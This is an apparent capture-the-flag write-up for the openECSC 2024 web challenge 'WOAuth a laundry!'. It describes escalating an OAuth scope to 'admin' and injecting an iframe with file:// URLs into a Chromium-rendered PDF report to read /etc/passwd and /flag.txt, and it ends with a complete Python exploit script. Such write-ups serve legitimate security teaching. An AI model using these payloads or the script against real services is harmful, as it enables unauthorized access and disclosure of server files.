# openECSC 2024 - Round 2

## [web] WOAuth a laundry! (239 solves)

Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.

Flag is in `/flag.txt`.

Site: [http://woauthalaundry.challs.open.ecsc2024.it](http://woauthalaundry.challs.open.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>, Simone Cimarelli <@Aquilairreale>

## Solution

### Foothold

The most interesting thing in home page is a Login button. Once clicked, immediatly an OAuth implicit flow is started, and in browser's session storage appear an `access_token` and an entry named `admin`:

![loginButton](./writeup/imgs/loginButton.png)
![sessionStorage1](./writeup/imgs/sessionStorage1.png)

By changing `admin` from 0 to 1 and refreshing the page a new section named `Admin` appears:

![adminSectionUnauthorized](./writeup/imgs/adminSectionUnauthorized.png)

By clicking the button a request is sent to the server, but it's answer is `401 Unauthorized`.

![generateReport401](./writeup/imgs/generateReport401.png)

### OAuth scope

By analyzing the authentication request sent to the openid provider is immediatly clear that the default scope assigned is `openid laundry amenities`, and using this scope the access to sections `Laundry` and `Amenities` is granted:

![defaultScopeBurp](./writeup/imgs/defaultScopeBurp.png)

The guess is that to obtain access to `Admin` section the scope value `admin` is needed and a good way to obtain the scope is trying to add it to the request sent to `/openid/authentication`:

![modifiedScopeBurp](./writeup/imgs/modifiedScopeBurp.png)

By using the resulting access token the access to endpoint `/admin` and `/generate-report` is granted. The endpoint returns a list of "admin endpoints" with methods and example bodies:
```json
{
    "admin_endpoints" : [
        {
            "exampleBody": {
                "requiredBy" : "John Doe"
            },
            "methods" : [
                "POST"
            ],
            "path":"/generate_report"
        }
    ]
}
```

### Skia LFI

By trying to craft a request to the endpoint we obtain a PDF report:

![johnDoe](./writeup/imgs/johnDoe.png)

A close inspection to the returned PDF shows that the file has been created with Chromium (Skia):

![producedBySkia](./writeup/imgs/producedBySkia.png)

A nice thing to try is HTMLInjection, which can lead to LFI (Local File Inclusion). A good try is to use an iframe to include `/etc/passwd`:

```json
{
"requiredBy":"<iframe src=\"file:///etc/passwd\"></iframe>"
}
```

![etcPasswd](./writeup/imgs/etcPasswd.png)

It works! so maybe also `/flag.txt` can be included:

```json
{
"requiredBy":"<iframe src=\"file:///flag.txt\"></iframe>"
}
```

![flag](./writeup/imgs/flag.png)

## Exploit
```py
import re
import os
import requests

ACCESS_TOKEN_RE = re.compile(r"access_token=([^&]+)")
URL = os.environ.get("URL", "http://192.168.178.20")

s = requests.Session()
client_id = s.get(f"{URL}/api/v1/creds").json()["client_id"]
access_token = ACCESS_TOKEN_RE.search(
    s.get(f"{URL}//openid/authentication?response_type=token%20id_token&client_id={client_id}&scope=openid%20laundry%20amenities%20admin&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce") \
     .text
).group(1)
print(f"ACCESS_TOKEN: {access_token}")

pdf_flag = s.post(f"{URL}/api/v1/generate-report",
    json={"requiredBy": "<iframe src=\"file:///flag.txt\"></iframe>"},
    headers={"Authorization": f"Bearer {access_token}"}
)

with open("./flag.pdf", "wb") as f:
    f.write(pdf_flag.content)
print("FLAG WROTE IN ./flag.pdf")


```
